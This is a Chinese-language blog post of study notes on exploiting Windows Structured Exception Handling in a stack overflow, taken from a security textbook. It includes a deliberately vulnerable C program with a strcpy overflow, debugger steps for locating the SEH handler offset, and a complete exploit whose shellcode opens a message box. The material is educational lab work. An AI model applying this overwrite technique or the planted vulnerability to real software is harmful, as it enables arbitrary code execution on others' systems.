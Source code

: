 ```yaml
---
title: 0day安全软件漏洞学习第三弹
date: 2022-04-04 16:09:03
tags:
    - 漏洞学习
---
```


<!--more-->

这几天看了《0day安全软件漏洞学习》的456章，第4章和第五章的内容没啥新奇的，我很快的过了一遍，第六章的内存攻击倒是我第一次接触,因为书里讲得太详细了，我也就直接搬运吧，主要记录一下这个过程。

# 在栈溢出中利用S.E.H 

## 介绍

先来了解一下什么是SEH：

​		S.E.H即异常处理结构体（Structure Exception Handler）,它是Windows异常处理机制所采用的重要数据结构。每个S.E.H包含两个DWORD指针：S.E.H链表指针和异常处理函数句柄，共8个字节。结构和指针类似。

![image-20220404161238624](https://s2.loli.net/2022/04/04/JelNGcxusVmbMdR.png)

作为对S.E.H的初步了解，我们现在只需要知道以下几个要点： 

（1）S.E.H结构体存放在系统栈中。 

（2）当线程初始化时，会自动向栈中安装一个S.E.H，作为线程默认的异常处理。 

（3）如果程序源代码中使用了__try{}__except{}或者Assert宏等异常处理机制，编译器将最终通过向当前函数栈帧中安装一个S.E.H来实现异常处理。 

（4）栈中一般会同时存在多个S.E.H。 

（5）栈中的多个S.E.H通过链表指针在栈内由栈顶向栈底串成单向链表，位于链表最顶端的S.E.H通过T.E.B（线程环境块）0字节偏移处的指针标识。 

（6）当异常发生时，操作系统会中断程序，并首先从T.E.B的0字节偏移处取出距离栈顶最近的S.E.H，使用异常处理函数句柄所指向的代码来处理异常。 

（7）当离“事故现场”最近的异常处理函数运行失败时，将顺着S.E.H链表依次尝试其他的异常处理函数。 

（8）如果程序安装的所有异常处理函数都不能处理，系统将采用默认的异常处理函数。通常，这个函数会弹出一个错误对话框，然后强制关闭程序。 

![image-20220404161642885](https://s2.loli.net/2022/04/04/jLnEYStmaA2XfRQ.png)

## 利用方式

（1）S.E.H存放在栈内，故溢出缓冲区的数据有可能淹没S.E.H。

（2）精心制造的溢出数据可以把S.E.H中异常处理函数的入口地址更改为shellcode的起始地址。 （3）溢出后错误的栈帧或堆块数据往往会触发异常。 

（4）当Windows开始处理溢出后的异常时，会错误地把shellcode当作异常处理函数而执行。 

## 实例

### 泄露SEH地址的EXP

```
#include <windows.h> 
char shellcode[] = "\x90\x90\x90\x90……"; 
DWORD MyExceptionhandler(void) { 
	printf("got an exception, press Enter to kill process!\n"); 
	getchar(); 
	ExitProcess(1); 
} 
void test(char * input) 
{ 
	char buf[200]; 
	int zero=0; 
	__asm int 3 //used to break process for debug 
	__try 
	{ 
	strcpy(buf,input); //overrun the stack 
	zero=4/zero; //generate an exception 
	}
	__except(MyExceptionhandler()){}
	
} main() { 
	test(shellcode); 
}
```

对代码简要解释如下。 

（1）函数test中存在典型的栈溢出漏洞。 

（2）__try{}会在test的函数栈帧中安装一个S.E.H结构。

（3）__try中的除零操作会产生一个异常。 

（4）当strcpy操作没有产生溢出时，除零操作的异常将最终被MyExceptionhandler函数处理。 （5）当strcpy操作产生溢出，并精确地将栈帧中的S.E.H异常处理句柄修改为shellcode的入口地址时，操作系统将会错误地使用shellcode去处理除零异常，也就是说，代码植入成功。 

（6）此外，异常处理机制与堆分配机制类似，会检测进程是否处于调试状态。如果直接使用调试器加载程序，异常处理会进入调试状态下的处理流程。因此，我们这里同样采用直接在代码中加入断点_asm int 3，让进程自动中断后再用调试器attach的方法进行调试。 

​	**这个实验的关键在于确定栈帧中S.E.H回调句柄的偏移，然后布置缓冲区，精确地淹没这个位置，将该句柄修改为shellcode的起始位置。**

​		暂时将shellcode赋值为一段不至于产生溢出的0x90，按照实验环境编译运行代码，程序会自动中断，并提示选择终止运行或者进行调试,OllyDbg会自动Attach到进程上并停在断点_asm int 3处。

![image-20220404162404826](https://s2.loli.net/2022/04/04/jBtHXvqWbfeTo9L.png)

​	单击OllyDbg菜单“View”中的“SEH chain”，Ollydbg会显示出目前栈中所有的S.E.H结构的位置和其注册的异常回调函数句柄

![image-20220404162627342](https://s2.loli.net/2022/04/04/MeShyNw5fWlKd8R.png)

OllyDbg当前线程一共安装了3个S.E.H，离栈顶最近的位于0x0012FF68，如果在当前函数内发生异常，首先使用的将是这个S.E.H。我们回到栈中看看这个S.E.H的状况，OllyDbg已经自动为它加上了注释，

![image-20220404162557680](https://s2.loli.net/2022/04/04/o8vAcsdgYbLHntm.png)

​	这个S.E.H就在离EBP与函数返回地址不远的地方，0x0012FF68为指向下一个S.E.H的链表指针，0x0012FF6C处的指针0x00401214则是我们需要修改的异常回调函数句柄。 

​	剩下的工作就是组织缓冲区，把0x0012FF6C处的回调句柄修改成shellcode的起始地址0x0012FE98。

​	缓冲区起始地址0x0012FE98与异常句柄0x0012FF6C之间共有212个字节的间隙，也就是说，超出缓冲区12个字节后的部分将覆盖S.E.H。 

​	仍然使用弹出“failwest”消息框的shellcode进行测试，将不足212字节的部分用0x90字节补齐；213~216字节使用0x0012FE98填充，用于更改异常回调函数的句柄；最后删去代码中的中断指令_asm int 3。 

### 利用SEH漏洞**EXP：**

```
#include <windows.h> char shellcode[]= "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" "\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" "\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53" "\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B" "\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95" "\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59" "\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A" "\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75" "\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03" "\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB" "\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50" "\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90" "\x90\x90\x90\x90\x98\xFE\x12\x00"; 
DWORD MyExceptionhandler(void) { 
	printf("got an exception, press Enter to kill process!\n"); getchar(); 		ExitProcess(1);
} 
void test(char * input) 
{ 
	char buf[200]; 
	int zero=0; 
	_try { 
	strcpy(buf,input); //overrun the stack 	
	zero=4/zero; //generate an exception 
	} 
	_except(MyExceptionhandler()){} 
} main() { 
test(shellcode); 
}
```

重新编译，build成release之后运行，

![image-20220404163101330](https://s2.loli.net/2022/04/04/Pd7F5MSeDQpuxfc.png)

成功在栈溢出中利用S.E.H ，这时操作系统将错误地使用shellcode去处理除零异常，从而使植入的代码获得执行。 
